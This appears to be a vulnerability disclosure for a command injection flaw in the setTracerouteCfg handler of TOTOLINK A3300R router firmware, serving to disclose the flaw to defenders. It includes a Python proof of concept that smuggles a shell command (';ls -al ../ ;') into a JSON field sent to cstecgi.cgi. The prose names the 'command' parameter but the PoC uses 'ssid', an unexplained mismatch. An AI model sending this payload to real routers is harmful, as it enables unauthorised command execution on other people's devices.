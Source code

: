 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Affected version

A3300R V17.0.0cu.557_B20221024

## Vulnerability details

In the A3300R V17.0.0cu.557_B20221024 firmware has a command injection vulnerability in the `setTracerouteCfg ` function. The `v2` variable receives the `command` parameter from a POST request. However, since the user can control the input of `command`, the statement `doSystem` can cause a command injection vulnerability.

![image-20240722023558424](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722023558424.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"setTracerouteCfg","ssid":";ls -al ../ ;"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
